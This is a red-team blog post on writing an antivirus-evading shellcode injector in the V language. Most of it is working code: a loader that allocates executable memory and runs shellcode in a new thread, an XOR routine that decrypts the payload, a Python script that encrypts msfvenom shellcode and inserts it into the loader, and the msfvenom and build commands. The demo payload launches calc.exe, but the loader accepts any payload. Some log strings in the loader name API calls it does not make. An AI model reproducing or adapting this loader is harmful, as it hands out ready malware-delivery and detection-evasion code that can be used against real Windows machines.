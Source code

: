 ```yaml
---
layout: single
title:  "OffensiVe Security with V 3 - XOR"
date:   2022-07-20 16:54:50 -0500
categories: red-team
tags: vlang windows
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [injection process](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/) of a **shellcode** in **V** was detailed, in this part another **injection technique** with **XOR encryption** will be investigated in order to mitigate **AV defenses**.

> Previous part in: https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/

## Process Injection with XOR encrypted payload

From a basic **shellcode** injection it is possible to **encrypt** the payload in order to make malware reversing difficult or even reduce the number of **AV** detections. An **XOR encryption** of the shellcode will be implemented.

To do this, the following code will be used, which shows a memory injection of a shellcode.

`4_XORShellcode.v`

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    shellcode := []
    inject(shellcode)
}
```

>    time.sleep() is now more flexible and consistent, like in Go:
    time.sleep(10 * time.second) instead of time.sleep(10)
    time.sleep(10 * time.millisecond) instead of time.sleep_ms(10)


Encrypting the shellcode is useful for bypassing **AVs** or making reverse engineering difficult. In this case, it will be obtained by adding a **function** called **XOR** `fn xor` whose utility is to perform an **XOR decryption** with a **private key**. This is a **symmetric encryption**, so it is possible to use the same key for encryption and decryption.

```c
fn xor(shellcode []byte, key []byte) []byte {
    mut output := []byte{}
    for i := 0; i < shellcode.len; i++ {
        output << shellcode[i] ^ key[i % key.len]
    }
    return output
}

fn main() {
    key := "besecteam"
    EncryptedShellcode := [ byte(0xb8), 0xa8, 0xcd, ...]
    DecryptedShellcode := xor(EncryptedShellcode, key.bytes())
    inject(DecryptedShellcode)
}
```

After adding the function in the **V script**, it is necessary to encrypt a shellcode with the same private key. For this, the following script in **Python** will be developed.

`4_XORShellcode_cipher.py`

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '[ byte(0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' ]'
    ciphertext = ciphertext[:11] + ')' + ciphertext[11:]
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
key = "besecteam"

## payload calc.exe
plaintext = b'\xda\xcd\xbe\xa9\xf7\x04\x1e\xd9t$\xf4Z+\xc9\xb111r\x18\x83\xc2\x04\x03r\xbd\x15\xf1\xe2U[\xfa\x1a\xa5<r\xff\x94|\xe0\x8b\x86Lb\xd9*&&\xca\xb9J\xef\xfd\n\xe0\xc90\x8bY)R\x0f\xa0~\xb4.ks\xb5w\x96~\xe7 \xdc-\x18E\xa8\xed\x93\x15<vG\xed?W\xd6ffw\xd8\xab\x12>\xc2\xa8\x1f\x88y\x1a\xeb\x0b\xa8S\x14\xa7\x95\\\xe7\xb9\xd2Z\x18\xcc*\x99\xa5\xd7\xe8\xe0q]\xebB\xf1\xc5\xd7s\xd6\x90\x9c\x7f\x93\xd7\xfbc";p\x9f\xaf\xbaW\x16\xeb\x98ss\xaf\x81"\xd9\x1e\xbd5\x82\xff\x1b=.\xeb\x11\x1c$\xea\xa4\x1a\n\xec\xb6$:\x85\x87\xaf\xd5\xd2\x17z\x92-R\'\xb2\xa5;\xbd\x87\xab\xbbk\xcb\xd5?\x9e\xb3!_\xeb\xb6n\xe7\x07\xca\xff\x82\'y\xff\x86K\x1c\x93K\xa2\xbb\x13\xe9\xba'

ciphertext, p_key = xor_encrypt(plaintext, key)

# open and replace our payload in C++ code
tmp = open("./4_XORShellcode.v", "rt")
data = tmp.read()
data = data.replace('shellcode := []', 'shellcode := ' + ciphertext)
tmp.close()
tmp = open("./4_XORShellcode_mod.v", "w+")
tmp.write(data)
tmp.close()
```

The payload will be generated with **msfvenom** and added to the script.

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00' \
  -f raw -o calc.bin && python3 \
  -c "plaintext = open('./calc.bin', 'rb').read();print(plaintext)" | \
  xclip
```

Once the **Python** script is executed, it will generate a file called `4_XORShellcode_mod.v`.

```bash
python3 4_XORShellcode_cipher.py
v 4_XORShellcode_mod.v
```

`4_XORShellcode_mod.v` will be compiled with **V** to generate the `4_XORShellcode_mod.exe` executable.

